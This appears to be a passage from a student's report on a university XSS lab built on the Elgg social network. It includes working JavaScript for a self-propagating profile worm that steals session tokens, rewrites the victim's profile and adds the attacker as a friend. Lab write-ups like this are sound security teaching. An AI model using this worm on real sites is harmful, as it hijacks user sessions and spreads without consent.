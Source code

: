 ```js
        Ajax.setRequestHeader("Content-Type",
        "application/x-www-form-urlencoded");
        Ajax.send(content);
	}
}
</script>
```

After editing Samy's profile, using Boby's account to see the Samy's profile. Then go back to Boby's profile, it succeeds.

<img src="C:\Users\Lori\Desktop\Course\ComputerScience\CS315\lab11\pictures\image-20201206154202421.png" alt="image-20201206154202421" style="zoom:80%;" />

### Question3

In avoidance of changing the Samy's (the attacker's) profile himself.

After removing this sentence, I find this:

<img src="C:\Users\Lori\Desktop\Course\ComputerScience\CS315\lab11\pictures\image-20201206155009999.png" alt="image-20201206155009999" style="zoom:67%;" />

## Task6

```js
<script type="text/javascript" id="worm">
window.onload = function(){
    var userName=elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    var content = token+ts+"&name="+userName+"&description="+wormCode+"&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2&guid="+guid;
    //Construct the content of your url.
    var samyGuid=47; //FILL IN
    if(elgg.session.user.guid!=samyGuid)
    {
    	//Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type",
        "application/x-www-form-urlencoded");
        Ajax.send(content);
        
        //add friend:
        var friend="http://www.xsslabelgg.com/action/friends/add?friend="+samyGuid+ts+token;
        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET",friend,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
        Ajax.send();
	}
    alert("Worm propogation successfully. Your username is "+userName);
}
```